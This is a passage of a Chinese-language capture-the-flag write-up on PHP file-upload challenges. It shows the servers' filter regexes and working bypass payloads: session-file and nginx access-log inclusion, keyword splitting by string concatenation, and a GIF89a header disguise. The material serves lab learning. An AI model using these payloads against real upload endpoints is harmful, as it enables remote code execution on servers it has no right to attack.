 ```php
preg_match('/php|\{|\[|\;|log|\(/i', $str);
```


看upload.php源码，这回过滤了英文半角括号，禁用函数了，不过include语法结构还是可以用的，log过滤了，师傅们可以试试session包含，需要条件竞争

```php
<?=include'/tmp/sess_sessionID'>
```

## web 160 内容检测

反引号执行命令的方法行不通了，大抵被ban了，看了师傅们的做法，又学到了，本以为禁用'log'就不能文件包含了，没想到师傅们竟然拼接来实现了

```php
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

![log](/medias/show-upload/14.png)

查看源码,过滤了空格和反引号

```php
preg_match('/php|\{|\[|\;|log|\(| |\`/i', $str);
```

## web 161 检测文件头

这题添加新的限制：文件头，给上面图片马添加了一个GIF89a的文件头，上传成功
```php
GIF89a
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```
